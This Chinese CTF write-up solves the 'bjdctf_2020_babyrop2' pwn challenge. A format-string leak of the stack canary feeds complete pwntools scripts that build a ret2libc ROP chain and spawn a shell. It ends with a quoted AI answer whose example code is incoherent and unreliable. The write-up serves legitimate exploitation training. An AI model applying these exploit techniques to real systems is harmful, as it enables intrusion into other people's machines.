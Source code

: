 ```yaml
---
title: 'bjdctf_2020_babyrop2'
date: 2024-11-11 13:00:00 +0800
categories: [format,canary,64bit,leak_libc]
tags: [ctf,pwn]
---
```


```shell
bamuwe@qianenzhao:~$ checksec bjdctf_2020_babyrop2
[*] '/home/bamuwe/bjdctf_2020_babyrop2'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
```

`canary`保护机制:在局部变量和返回地址间插入一个随机数,通过检测这个随机数判断是否存在栈溢出或修改.

![image-20240101130851524](../assets/img/old_imgs/image-20240101130851524.png)

![image-20240101130915897](../assets/img/old_imgs/image-20240101130915897.png)

> 红框位置就是`canary`值存在的位置

![image-20240101131022383](../assets/img/old_imgs/image-20240101131022383.png)

> `gift`函数

![image-20240101131040053](../assets/img/old_imgs/image-20240101131040053.png)

> `vuln`函数

1. 存在`canary`机制考虑怎么泄露`canary`,在`gift`函数中存在一个格式化字符漏洞可以利用

   - 因为这里对输入长度做了限制,所以不能用常规`%8x%8x%8x...`来泄露偏移量,但是我们可以用`%n$p`来泄露偏移量,`n`是偏移的位置,`$p`是打印该位置上的值

     ```python
     from pwn import *
     context.log_level = 'debug'
     io = process('./bjdctf_2020_babyrop2')
     io.sendlineafter(b"I'll give u some gift to help u!\n",b'A%6$p')
     io.interactive()
     ```

     ```shell
     [DEBUG] Received 0x44 bytes:
         b'Can u return to libc ?\n'
         b'Try u best!\n'
         b"I'll give u some gift to help u!\n"
     [DEBUG] Sent 0x6 bytes:
         b'A%6$p\n'
     [*] Switching to interactive mode
     [DEBUG] Received 0x36 bytes:
         b'A0x7024362541\n'
         b'Pull up your sword and tell me u story!\n'
     A0x7024362541
     Pull up your sword and tell me u story!
     $
     ```

     > 当`n`等于`6`时看到了`0x41`,确定偏移为`6`

   - 根据上面提到的,我们知道`canary`在栈的末尾,所以把偏移往后移一位就可以得到`canary`的值

     ```shell
     [DEBUG] Received 0x23 bytes:
         b'Can u return to libc ?\n'
         b'Try u best!\n'
     [DEBUG] Received 0x21 bytes:
         b"I'll give u some gift to help u!\n"
     [DEBUG] Sent 0x6 bytes:
         b'A%7$p\n'
     [*] Switching to interactive mode
     [DEBUG] Received 0x13 bytes:
         b'A0x6b3d526f8ba61400'
     $
     ```

     ```shell
     pwndbg> stack 0x20
     00:0000│ rsp 0x7ffd2b15b170 ◂— 0x7024372541 /* 'A%7$p' */
     01:0008│     0x7ffd2b15b178 ◂— 0x6b3d526f8ba61400
     02:0010│ rbp 0x7ffd2b15b180 —▸ 0x7ffd2b15b1a0 ◂— 0x1
     03:0018│     0x7ffd2b15b188 —▸ 0x400905 (main+43) ◂— mov eax, 0
     ```

2. 获得了`canary`之后就是常规的`64`位泄露`libc`,但是在填充栈的时候有一些不同,我们要注意覆盖`canary`的位置

   - ![image-20240101132652204](../assets/img/old_imgs/image-20240101132652204.png)

     > 通过ida我们看到`buf`的栈空间为`0x18`

     栈填充部分如下

     | rbp  |         |        |       |
     | :--: | :-----: | :----: | :---: |
     |      | padding |        | 0x18  |
     |      |         | canary | value |
     |      |         | leave  |  0x8  |
     |      |         |  ret   |       |

     泄露`libc`完整`payload`

     | rbp  |           |        |       |            |
     | :--: | :-------: | :----: | :---: | :--------: |
     |      |  padding  |        | 0x18  |            |
     |      |           | canary | value |            |
     |      |           | leave  |  0x8  |            |
     |      |  pop_rdi  |  ret   |       | ROPgadgets |
     |      | puts_got  |  ret   |       |            |
     |      | puts_plt  |  ret   |       |            |
     |      | vuln_addr |  ret   |       |            |

3. 得到`libc`构造`payload`得到`shell`

```python
#远程脚本
from pwn import *
from LibcSearcher import LibcSearcher
context.log_level = 'debug'
io = remote('node5.buuoj.cn',26462)
elf = ELF('./bjdctf_2020_babyrop2')

io.sendlineafter(b"I'll give u some gift to help u!\n",b'%7$p')
io.recvuntil(b'0x')
canary = int(io.recvline(16),16)    #recv(),15或者16都可以,后续函数会自动去除的

print('canary->',hex(canary))
padding = b'A'*0x18+p64(canary)+b'A'*8
payload = padding + p64(0x0000000000400993) + p64(elf.got['puts']) + p64(elf.plt['puts']) + p64(elf.sym['vuln'])
io.sendlineafter(b'Pull up your sword and tell me u story!',payload)
io.recvuntil(b'\n')
puts_addr = u64(io.recv(6).ljust(8,b'\x00'))
print('puts_addr->',hex(puts_addr))

Lib = LibcSearcher('puts',puts_addr)
Liboffset = puts_addr - Lib.dump('puts')
sys_addr = Liboffset + Lib.dump('system')
bin_sh_addr = Liboffset + Lib.dump('str_bin_sh')
payload = padding+p64(0x0000000000400993)+p64(bin_sh_addr)+p64(sys_addr)+p64(elf.sym['main'])
io.sendlineafter(b"Pull up your sword and tell me u story!",payload)
io.interactive()
```

```python
#本地脚本
from pwn import *
context.log_level = 'debug'
#io = process('./bjdctf_2020_babyrop2')
io = gdb.debug('./bjdctf_2020_babyrop2','break vuln')
elf = ELF('./bjdctf_2020_babyrop2')
Lib = ELF('/lib/x86_64-linux-gnu/libc.so.6')

io.sendlineafter(b"I'll give u some gift to help u!\n",b'%7$p')
io.recvuntil(b'0x')
canary = int(io.recvline(16),16)    #recv(),15或者16都可以,后续函数会自动去除的

print('canary->',hex(canary))
padding = b'A'*0x18+p64(canary)+b'A'*8
payload = padding + p64(0x0000000000400993) + p64(elf.got['puts']) + p64(elf.plt['puts']) + p64(elf.sym['vuln'])
io.sendlineafter(b'Pull up your sword and tell me u story!',payload)
io.recvuntil(b'\n')
puts_addr = u64(io.recv(6).ljust(8,b'\x00'))
print('puts_addr->',hex(puts_addr))
Liboffset = puts_addr - Lib.sym['puts']
sys_addr = Liboffset + Lib.sym['system']
bin_sh_addr = Liboffset + next(Lib.search(b'/bin/sh'))
payload = padding+p64(0x0000000000400993)+p64(bin_sh_addr)+p64(0x00000000004005f9)+p64(sys_addr)
io.sendlineafter(b"Pull up your sword and tell me u story!",payload)
io.interactive()
```

由于我本地环境是`Wsl-Ubuntu-22.04`会出现本地打不通的情况,所以需要在调用`system`前加上`ret`即`+p64(0x00000000004005f9)`填充内存空间,具体原因参考如下

```
环境差异：
•	libc版本不同：不同版本的glibc库在处理函数调用时可能存在差异，如系统调用、格式化字符串解析、堆管理等。例如，上述信息提及，glibc 2.27及更高版本的system()函数内部实现可能使用了xmm寄存器，要求内存对齐，如果本地环境与远程环境的glibc版本不一致，可能导致利用失败。
```

通过调试可以发现,本地不通确实是因为调用了`xmm`寄存器
```shell
─────────────────────────[ DISASM / x86-64 / set emulate on ]──────────────────────────
   0x7faee5924967 <do_system+103>    mov    qword ptr [rsp + 188h], 0
 ► 0x7faee5924973 <do_system+115>    movaps xmmword ptr [rsp], xmm1
   0x7faee5924977 <do_system+119>    lock cmpxchg dword ptr [rip + 1cae01h], edx
   0x7faee592497f <do_system+127>    jne    7faee5924c30h                 <do_system+816>
```

我们需要让`system`的地址正好落在`16`字节的栈边界,从根本(原理)上改变是很困难的,但是可以通过填充`rop`比如`nop,ret`来填充需要的字节.

解决办法:在`system`函数地址前加一个或多个`ret`尝试打通本地

参考通义千问回答的代码:

>在使用pwntools编写exploit脚本时，确实可以通过ROP（Return-Oriented Programming）技术来实现对齐。如果你知道目标地址必须是对齐的，例如16字节对齐，那么在构造ROP链的过程中，可以插入适当的NOP sled或者找到内存中一个合适的返回指令片段，确保payload中的关键地址（比如system函数的地址或其所在plt/got表项的地址）在其之前填充足够的字节以达到对齐要求。
>
>例如，在ropchain构建过程中：
>
>```python
>
>from pwn import *
>
># 假设已经得到了elf、libc等上下文信息
>
>context.arch = 'amd64'  # 设置架构为x86_64
>
># ... 省略其他代码，如连接到远程服务器、获取shellcode等
>
># 找到system gadget和其他需要使用的gadgets
>pop_rdi = elf.gadgets['pop rdi; ret']  # 用于放置参数
>syscall = elf.plt['syscall']  # 或者直接用系统调用号对应的gadget
>
># 确保system地址是16字节对齐的
>system_addr = next((addr for addr in gadgets if addr % 16 == 0 and gadgets[addr].endswith('ret')), None)
>if not system_addr:
>    # 如果没有找到对齐的system gadget，可能需要创建一个填充的ROP链
>    padding = b'\x90' * (16 - (next_gadget_address % 16))  # 使用NOP sled填充
>    rop += padding
>    system_addr = next_gadget_address + len(padding)
>
>rop += p64(pop_rdi)  # 将"/bin/sh"字符串地址放入rdi
>rop += p64(binary.search('/bin/sh'))  # "/bin/sh"的地址
>rop += p64(system_addr)  # 调用system gadget
>
># 发送ROP链
>payload = b'A'*overflow_size + rop
>io.send(payload)
>```
>
>
>请注意上述代码仅为示例，实际利用中需要根据具体环境和栈布局来调整。在实际场景中，如果是因为system()函数内部实现要求xmm寄存器对齐，则通常会检查并保证栈上相关数据的对齐，而不仅仅是system函数本身的地址对齐。在这种情况下，你可能需要更深入地分析程序行为，并且可能需要结合额外的技术手段（如寻找特定类型的gadget）来构造满足条件的ROP链。

